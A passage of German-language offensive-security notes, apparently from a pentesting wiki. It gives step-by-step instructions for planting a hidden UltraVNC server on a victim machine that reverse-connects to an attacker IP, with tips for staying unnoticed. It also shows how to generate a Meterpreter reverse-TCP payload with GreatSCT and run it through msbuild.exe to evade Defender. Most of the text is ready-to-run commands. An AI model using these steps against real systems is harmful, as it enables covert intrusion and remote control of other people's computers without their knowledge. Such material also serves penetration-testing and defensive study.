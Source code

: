 Laden Sie es herunter von: [http://www.uvnc.com/downloads/ultravnc.html](http://www.uvnc.com/downloads/ultravnc.html) (Sie möchten die Binärdownloads, nicht das Setup)

**AUF DEM HOST**: Führen Sie _**winvnc.exe**_ aus und konfigurieren Sie den Server:

* Aktivieren Sie die Option _TrayIcon deaktivieren_
* Setzen Sie ein Passwort in _VNC-Passwort_
* Setzen Sie ein Passwort in _Nur-Anzeige-Passwort_

Verschieben Sie dann die Binärdatei _**winvnc.exe**_ und die **neu** erstellte Datei _**UltraVNC.ini**_ in die **Opfer**

#### **Rückverbindung**

Der **Angreifer** sollte **innerhalb** seines **Hosts** die Binärdatei `vncviewer.exe -listen 5900` ausführen, damit sie **vorbereitet** ist, eine Rückverbindung **VNC** zu empfangen. Dann, innerhalb des **Opfers**: Starten Sie den winvnc-Daemon `winvnc.exe -run` und führen Sie `winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900` aus.

**WARNUNG:** Um die Tarnung zu wahren, dürfen Sie einige Dinge nicht tun

* Starten Sie `winvnc` nicht, wenn es bereits läuft, oder Sie lösen ein [Popup](https://i.imgur.com/1SROTTl.png) aus. Überprüfen Sie, ob es läuft mit `tasklist | findstr winvnc`
* Starten Sie `winvnc` nicht ohne `UltraVNC.ini` im selben Verzeichnis, da dies [das Konfigurationsfenster](https://i.imgur.com/rfMQWcf.png) öffnet
* Führen Sie `winvnc -h` nicht zur Hilfe aus, oder Sie lösen ein [Popup](https://i.imgur.com/oc18wcu.png) aus

### GreatSCT

Laden Sie es herunter von: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)
```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```
Innerhalb von GreatSCT:
```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```
Jetzt **starten Sie den Lister** mit `msfconsole -r file.rc` und **führen Sie** die **xml payload** mit aus:
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```
**Der aktuelle Defender wird den Prozess sehr schnell beenden.**
